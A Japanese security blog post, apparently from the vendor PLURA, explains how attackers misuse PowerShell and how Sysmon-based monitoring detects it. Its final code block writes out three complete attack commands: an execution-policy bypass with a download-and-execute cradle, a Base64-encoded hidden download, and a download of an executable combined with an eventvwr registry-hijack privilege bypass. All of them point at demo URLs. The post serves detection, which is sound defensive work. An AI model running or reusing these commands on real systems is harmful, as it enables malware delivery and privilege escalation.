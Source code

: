 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: ["PowerShell", "マルウェア", "ウェブハッキング", "セキュリティ脆弱性", "PLURA"]
title: "PowerShellを利用した攻撃"
---
```


![PowerShell攻撃](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

PowerShellは、システム管理や自動化を目的に設計されたコマンドラインシェルおよびスクリプト言語です。  
Windows Vista以降に標準搭載されており、管理ツールとして有用である一方、攻撃者にも頻繁に利用されています。

---

### 1. 実行ポリシー (Execution Policy)

MicrosoftはデフォルトでPowerShellスクリプトの実行を制限しています。  
しかし、攻撃者はこれを簡単に回避することが可能です。  

**回避フラグ例:**  
- `-ExecutionPolicy` または `-EP Bypass`  
- `-ExecutionPolicy` または `-EP Unrestricted`  
- `-noprofile` または `-nop`  

*Profile Bypass: 各セッションの開始時にPowerShellを構成するために設定されたProfileも無視可能です。*

---

### 2. ダウンロード

PowerShellクラスおよびメソッドを使用して、マルウェアをダウンロードおよび実行することができます。  

頻繁に使用されるコマンド:  
- **New-Object**: .NET Frameworkのインスタンスを生成します。  
- **System.Net.WebClient**: リモートリソースとのデータ送受信に使用されます。  
- **DownloadString**: リモートからメモリバッファに内容をダウンロードします。  
- **DownloadFile**: リモートからローカルファイルとしてコンテンツをダウンロードします。  
- **IEX (Invoke-Expression)**: コマンドを実行します。  
- **ICM (Invoke-Command)**: ローカルおよびリモートコンピューターでコマンドを実行します。

---

### 3. エンコーディング

- PowerShellコマンドを隠蔽するためにBase64エンコーディングが頻繁に使用されます。  
- エンコーディングされたコマンドは、コマンドラインの長さが異常に長くなる場合があります。  
- 500文字を超える長いコマンドは、疑わしい可能性があります。

---

### 4. DLLの呼び出し

- 疑わしいDLL呼び出しの組み合わせを検出することで、悪意ある動作を特定できます。  
- PowerShell.exeまたはPowerShell_ISE.exe以外の実行ファイルで以下のDLL呼び出しが発生しているか監視します。  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)を活用して確認可能です。*

---

### 5. PLURAによるPowerShell悪意ある動作の検出

**Sysmonインストールが必須**  
- [インストールガイドを見る](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA検出](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### マルウェア実行の検出例

PowerShellの回避および攻撃者サーバーからのファイルダウンロード行為:  

![PowerShellマルウェア実行](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURAフィルタ検出**  
PLURAはSysmonを活用し、以下のような悪意あるコマンドを検出します:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 参考

- [SANS資料](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcomレポート](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab記事](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

---

## 関連記事・セキュリティニュース

- [セキュリティニュースを見る](https://bit.ly/2V99SLF)
